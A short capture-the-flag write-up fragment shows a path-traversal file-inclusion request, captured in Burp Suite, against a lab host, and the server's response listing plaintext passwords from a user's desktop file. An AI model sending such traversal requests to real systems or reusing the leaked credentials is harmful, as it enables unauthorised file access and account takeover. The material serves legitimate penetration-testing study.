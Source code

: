 {% embed url="https://blog.rapid7.com/2016/07/29/pentesting-in-the-real-world-local-file-inclusion-with-windows-server-files/" %}

Burp suite

![Checking for LFI through directory traversal](../.gitbook/assets/screenshot_2020-06-20_20-53-48.png)

```text
GET /../../../../../../../../../../../../Users/Nathan/Desktop/Passwords.txt HTTP/1.1
Host: 10.10.10.184
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: dataPort=6063; lang_type=0x0804%24zh-cn
Upgrade-Insecure-Requests: 1
DNT: 1
```

```text
HTTP/1.1 200 OK
Content-type: text/plain
Content-Length: 156
Connection: close
AuthInfo: 

1nsp3ctTh3Way2Mars!
Th3r34r3To0M4nyTrait0r5!
B3WithM30r4ga1n5tMe
L1k3B1gBut7s@W0rk
0nly7h3y0unGWi11F0l10w
IfH3s4b0Utg0t0H1sH0me
Gr4etN3w5w17hMySk1Pa5$
```
